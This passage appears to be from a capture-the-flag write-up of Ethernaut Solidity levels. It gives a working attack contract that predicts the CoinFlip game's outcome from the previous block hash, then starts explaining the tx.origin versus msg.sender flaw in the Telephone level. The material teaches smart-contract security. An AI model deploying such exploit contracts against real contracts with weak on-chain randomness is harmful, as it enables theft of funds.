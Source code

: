 So, it is very easy to guess the outcome of the algorithm before-hand since we already know what the algorithm is. We just need to create an attack contract to use the same algorithm to generate a guess and submit it to the `flip()` method.
Find the attack contract below :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract hack {
    CoinFlip private immutable target;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (address _target) {
        target = CoinFlip(_target);
    }

    function flip() external {
      bool guess = _guess();
      require(target.flip(guess), "guess failed");        
    }


    function _guess() private view returns (bool) {
        uint256 lastHash = uint256(blockhash(block.number - 1));
        uint256 coinFlip = lastHash / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return side;
    }
}
```

Notice, we have used the same algorithm as in the challenge contract to generate a guess.
If the hack contract is deployed in the instance address, and the `flip()` function is called 10 times, we will be able to complete the challenge.

A very tempting choice would be to automate the function calling part using a loop instead of manually doing it. I even tried to do it, but I couldn't as the block was not being mined, most likely due to insufficient gas. Calling functions inside a loop can be quite expensive on gas and is not recommended.

___
## Level 4 [Telephone]

This level is all about the confusion regarding `tx.origin` and `msg.sender`.
`tx.origin` is a global variable that holds the address of the account that originally sent the call or transaction, while, `msg.sender` holds the address of the immediate caller. For example, if Tom calls a function in contract A which in turn calls a function in contract B, then, `tx.origin = Tom`, while `msg.sender = contract A`.
`Tom -> A -> B`
The objective of this challenge is to claim ownership of the contract. If we check where the `owner` variable gets assigned in the contract, we will notice that we can change the value of the `owner` variable using the function `changeOwner()`, however, we will need satisfy the condition `if (tx.origin != msg.sender)`.
